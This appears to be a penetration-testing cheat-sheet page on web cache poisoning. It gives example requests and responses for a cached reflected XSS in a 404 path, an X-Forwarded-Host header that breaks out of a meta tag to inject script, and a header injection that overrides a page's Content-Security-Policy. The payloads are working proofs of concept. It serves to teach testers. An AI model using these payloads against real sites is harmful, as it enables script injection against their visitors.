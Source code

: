 ```yaml
---
title: Web Cache Poisoning
description: 
tags:
    - Web
refs:
    - https://portswigger.net/web-security/web-cache-poisoning
    - https://owasp.org/www-community/attacks/Cache_Poisoning
    - https://0xn3va.gitbook.io/cheat-sheets/web-application/web-cache-poisoning
date: 2023-10-18
draft: false
---
```


## Reflected XSS with Cache Poisoning

If the website reflects our arbitrary path in the result such as below.

```bash
https://example.com/xyz

# Output in the 404 page
Page not found: /xyz
```

We may try XSS as below.

```bash
https://example.com/xyz<script>alert(1)</script>
```

If we use **Burp Repeater** to send the request above, the URL won't be normalized so leads the reflected XSS. Then the cache will be poisoned. In this state, if you ask the victim to visit this URL, they will see this cached result. In other words, the reflected XSS is performed despite URL normalization in the victim's web browsers.

<br />

## Meta Tag XSS

```html
GET /?id=1 HTTP/1.1
Host: victim.com
X-Forwarded-Host: evil.com
...

<!-- Response -->
HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://evil.com/example.jpg" />
```

### Exploit

```html
GET /?id=2 HTTP/1.1
Host: victim.com
X-Forwarded-Host: evil.com"><script>alert(1)</script>
...

<!-- Response -->
HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https:/evil.com"><script>alert(1)</script>" />
```

<br />

## Meta Tag CSP Overriding

If the website sets **CSP (Content-Security-Policy)** using `meta` tag, we can override this CSP settings by cache poisoning, then we can bypass CSP and may cause other attacks.

```html
GET /?id=2 HTTP/1.1
Host: victim.com
X-Forwarded-Host: victim.com"><meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'unsafe-inline'">
...

<!-- Response -->
HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https:/victim.com"><meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'unsafe-inline'">
```